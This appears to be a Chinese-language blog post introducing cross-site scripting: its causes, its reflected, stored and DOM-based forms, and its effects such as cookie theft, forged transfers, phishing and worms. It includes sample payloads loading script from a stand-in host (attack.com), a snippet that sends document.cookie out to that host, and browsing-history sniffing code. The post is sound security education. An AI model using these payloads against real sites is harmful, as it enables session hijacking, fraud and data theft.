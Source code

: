 ```yaml
---
layout: post
title: "xss初探"
description: "xss简介"
category: 
tags: ["安全", "WEB", "xss"]
---
```


##1. 简介
XSS是跨站脚本攻击（Cross Site Scripting）的缩写。有的同学可能会问，为什么这样缩写，全称里面连个x都没有……这是因为首字母缩写CSS（层叠样式表Cascading Style Sheets）已经名花有主了~~   

跨站脚本攻击，是在受害者的网站上运行攻击者的脚本，从而达到攻击受害网站的效果。其本质也是代码注入，注入的脚本除了javascript也可以是flash插件或者java插件等等。  

2013年的OWASP TOP 10中，xss就赫然排在第3。

##2. 原理
既然xss是一种注入攻击，其原理其实简单，就是因为没有将代码与数据正确分离，导致数据被当成代码执行。   

这里要先搞清楚一个基本概念，什么是用户数据？不是用户在界面上输入的才是用户数据，凡是用户可以更改的，包括url、请求到后台的参数、持久化到数据库中的用户信息或输入、上传的文件内容、cookie、http请求头等等，统统都是用户数据。这些数据如果没有正确做转码就添加到页面中，就可能会导致xss攻击。

可以先看看下面的例子：

1、后台返回html

	<div>${ inputFromUser}</div>
	
如果用户构造inputFromUser的值为  

	<script src="http://attack.com/attack.js"></script>

那么后台返回给浏览器的html片段就变成了 

	<div><script src="http://attack.com/attack.js"></script></div>

该片段在浏览器执行时就会下载并执行attack.js，从而攻击者可以让任意的js代码在受害网站上运行。

2、后台在script中写变量

	<script>
		var data = '${inputFromUser}';
	</script>
	
用户只需要构造输入  

	';document.write('<script src="http://attack.com/attack.js"><' + '/script>';'

在浏览器执行时就会往html中写入attack.js，导致代码被执行



##3. 分类
按照攻击原理和效果可以将xss分为三类

###3.1 反射型
该种攻击数据没有持久化到后台，一般都是通过构造url后面的查询串来达到攻击效果。

这时候只需要修改浏览器上的url，如：`http://example.com?alert(1)` 回车，就会发现浏览器弹出了alert(1)的警告框

千万不要小看反射型的xss注入，当它与加入社会工程的智慧，危害会超出你想象。
参考一个实际示例你就明白了~~ [http://wooyun.org/bugs/wooyun-2010-097515](http://wooyun.org/bugs/wooyun-2010-097515)

###3.2 存储型

该种xss会将用户构造的数据持久化到后台，每次打开页面访问到用户构造的数据都会中招，危害比反射型更大。
用户详情界面：

	<div>${nickName}</div>

用户修改自己的昵称为 `<script src="http://attack.com/attack.js"></script>`，由于昵称会被持久化到数据库，任何访问该人资料的用户都会中招。
如果攻击者主动通过微博、微信、邮件等发送个人详情链接，那么中招的人会更多。

###3.3 Dom based
Dom based也算是反射型攻击的一种，只是其攻击点出现在dom结构上。

	<script>
		var html = '<span>' + inputFromUser + '</span>';
		$('#container').append(html);
	</script>
	
构造payload：`<script src="http://attack.com/attack.js"></script>`
就可以成功注入

##4.攻击效果
上面讲述了怎么往页面里面插入js脚本，有的同学可能就说了，不就弹几个警告框吗，也没什么太大的危害啊~~
对于这种同学，只能说太天真单纯了，黑客的世界可没这么纯洁那么注入后黑客能做什么呢？

###4.1 Cookie劫持
攻击者只要在自己的js上写上如下代码就可以轻松获取到受害用户的cookie

	var img = document.createElement('img');
	img.src = 'http://attack.com/?cookie=' + document.cookie;
	img.style.display = 'none';
	document.getElementByName('body')[0].appendChild(img);

就可以轻松地将受害者cookie发到自己的网站了

别以为黑客只能傻傻地等受害者自己去点击问题页面。完成攻击部署后，黑客可以简单地通过邮件、发帖或者聊天的方式联系客服，说自己访问不了问题页面，并把url发给客服，
一旦客服访问了问题页面，管理员的cookie也就到了黑客手里了。这时黑客就可以在浏览器把自己的cookie改成偷来的管理员cookie，用户身份一下子就变成了管理员。
善意的可能会将bug提交乌云或者搞搞恶作剧~~，恶意的就不好说了，轻则盗取网站的注册用户数据，严重的可以清空所有重要的业务数据，造成的损失可能无法估计~

###4.2 发请求篡改资源
攻击者可以发送一个本来只有真正用户可以发起的请求,如

	$.put('/tranferMoney?from=accountA&to=account&mount=100000');

发起一笔转账，将用户的资产转到黑客账户名下~

或者发请求删除用户的重要数据等等，都会让用户损失惨重。

###4.3 Xss钓鱼
比如购物网站，xss脚本可以在购买的按钮上绑定点击事件，使点击时弹出自己构造的登录弹出框，只要样式做得跟原网站相同，很多用户并不会多想，
会在上面输入自己的账号密码提交，这样攻击者就可以简单地获取到受害者的账号密码了。

###4.4 获取用户信息
js脚本可以获取到很多的信息，如果结合插件，你会发现泄漏的信息可以非常多

####4.4.1 浏览器和系统信息
浏览器的navigator对象可以暴露非常多的信息，下图是chrome上的navigator对象

![navigator对象](/img/navigator-object.png)

不但包含了浏览器版本、操作系统信息，还包括了安装的浏览器插件，很多的插件都有已知漏洞，攻击者可以根据安装的插件进行更深层次的攻击。

####4.4.2 获取用户访问过的网站列表
原理很简单，浏览器上的链接，有个css伪类:visited，凡是访问过的url就会使该伪类的样式生效。
攻击者要做的就是提供一个大的网站列表，并判断每个a标签的生效样式，就可以知道哪些是用户访问过的。网站列表越大，越能分析出用户的上网习惯，这些信息经常是广告商所需要的。
Js代码

	var sites = ['www.google.com', 'www.baidu.com', 'www.xxx.com', …];
	var html = compiledAttackTemplate(sites);
	$('body').append(html);
	var visited = [];
	$('. attackList').each(function() {
		if ($(this).css('color') === 'rgb(68, 68, 68)') {
			visited.push(this.href);
		}
	});
	
Handlebars模板：

	{{each this}}
		<a href="{{this}}" class="attackList"></a>
	{{/each}}
	
	<style>
	. attackList { 
		color: #333!important; 
	} 
	.attackList:visit { 
		color: #444!important; 
	}
	
幸运的是，这个问题早就被浏览器开发商所关注并做了处理：在Chrome、Firefox和IE9+，都无法通过js获取到:visited生效的样式，所以在这些高版本浏览器这种攻击将无法生效。

####4.4.3 获取用户的真实IP
1、利用Java Applet可以获取真实IP
2、Metasploit引擎综合了Java Applet、iTunes、Office Word、Quick Time等三方软件的功能，抓取用户本地信息

###4.5 XSS蠕虫
你没看错，xss攻击也可以制造网络蠕虫，在社交类型的网站其传播速度更是迅猛无比。
历史第一个XSS蠕虫是针对网站Myspace的Samy，它在20小时内感染了100万个账户。

百度贴吧就两度遭遇了xss蠕虫，其中一个可以参见[http://www.wooyun.org/bugs/wooyun-2013-024106](http://www.wooyun.org/bugs/wooyun-2013-024106)
